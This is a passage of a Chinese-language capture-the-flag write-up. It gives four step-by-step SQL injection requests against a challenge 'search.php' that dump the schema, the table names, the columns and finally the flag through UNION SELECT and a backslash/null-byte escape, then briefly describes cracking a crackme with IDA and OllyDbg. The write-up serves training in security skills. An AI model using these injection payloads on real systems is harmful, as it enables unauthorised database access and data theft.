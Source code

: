 然后执行常规的查库、查表、读取 flag。 Order by 判断有 4 个字段， 查到数据库为 sql_seclover 请求为

```
search.php?word=l\%00' union select 1,schema_name,3,4 from information_schema.schemata where 1 %23&tongpeifu=\0&sqltongpei=\ 
```

查表有 content、admin（里面无数据，因而后台登录是虚设？）、secret 请求为

```
search.php?word=l\%00' union select 1,table_name,3,4 from information_schema.tables where table_schema=0x73716C5F7365636C6F766572 %23&tongpeifu=\0&sqltongpei=\ 
```

查字段 sid skey 请求为

```
search.php?word=l\%00' union select 1,column_name,3,4 from information_schema.columns where table_name=0x736563726574 %23&tongpeifu=\0&sqltongpei=\ 
```

获得 key{Seclover W@1C0me ^u0} 请求为

```
search.php?word=l\%00' union select 1,skey,3,4 from secret where 1 %23&tongpeifu=\0&sqltongpei=\ 
```

Key:{Seclover W@1C0me ^u0}

## 0x02 Crack

* * *

**1.crack1-Crackme1**

Url:http://ctf.sobug.com/crackme/b4dc971ef90cb6ae/index.php

Point:100

Proceess:

拖到 ida 中，逻辑很简单。 找到关键函数 sub_401000，分析。 看了下就是和 unk_408030 位置的数字进行一系列抑或，而且是简单的抑或。所以这个不用逆算法就行，直接上 od。 转到 0x401000 处，在程序结束的地方下断点，运行程序。成功断下后，直接在栈上可以看到注册码，如图。

![enter image description here](img/img40_u2_png.jpg)

